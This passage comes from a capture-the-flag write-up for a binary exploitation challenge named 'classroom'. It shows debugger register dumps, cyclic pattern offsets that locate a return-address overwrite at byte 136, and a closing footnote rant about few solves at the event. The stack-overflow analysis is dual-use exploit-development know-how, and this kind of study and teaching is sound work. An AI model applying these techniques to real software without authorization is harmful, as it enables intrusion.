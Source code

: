 ```c
   3 0x6261616f6261616e
   4 0x6261617162616170
   5 0x6261617362616172
   6 0x6261617562616174
   7 0x6261617762616176
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

At the `SIGSEGV` we get 3 registers pointing to memory we can write at:

```shell
~/D/W/b/pwn $ cyclic -l 0x6161616261616161 # $rsi
0
~/D/W/b/pwn $ cyclic -l 0x6261616962616168 # $rbp
128
~/D/W/b/pwn $ cyclic -l 0x6261616b6261616a # $rsp -- ret overwrite
136
```

If we run again by setting a breakpoint exactly after read() returns we get:

```c
Alright! Do you have any more questions? (y/n)
> y
Enough questions for today class...
Well, maybe a last one and then we finish!
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaa

Breakpoint 1, 0x0000000000400a48 in kinder ()                                     # exactly after read(0,&local_88,0x14c);
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
*RAX  0x14c
*RBX  0x7fffffffe1c8 —▸ 0x7fffffffe480 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
*RCX  0x7ffff7ea3a1d (read+13) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x14c
 RDI  0
*RSI  0x7fffffffe010 ◂— 0x6161616261616161 ('aaaabaaa')
*R8   0xff00
*R9   7
*R10  7
*R11  0x246
 R12  0
*R13  0x7fffffffe1d8 —▸ 0x7fffffffe4af ◂— 'USER=kidd'
*R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 ◂— 0
 R15  0
*RBP  0x7fffffffe090 ◂— 0x6261616962616168 ('haabiaab')
*RSP  0x7fffffffe010 ◂— 0x6161616261616161 ('aaaabaaa')
*RIP  0x400a48 (kinder+248) ◂— jmp 0x400ade
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────── 
 ► 0x400a48 <kinder+248>    jmp    kinder+398                  <kinder+398>
    ↓
   0x400ade <kinder+398>    cmp    dword ptr [rbp - 4], 0     0x62616167 - 0x0     EFLAGS => 0x202 [ cf pf af zf sf IF df of ]
   0x400ae2 <kinder+402>    je     kinder+107                  <kinder+107>
 
   0x400ae8 <kinder+408>    nop    
   0x400ae9 <kinder+409>    leave  
   0x400aea <kinder+410>    ret    
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?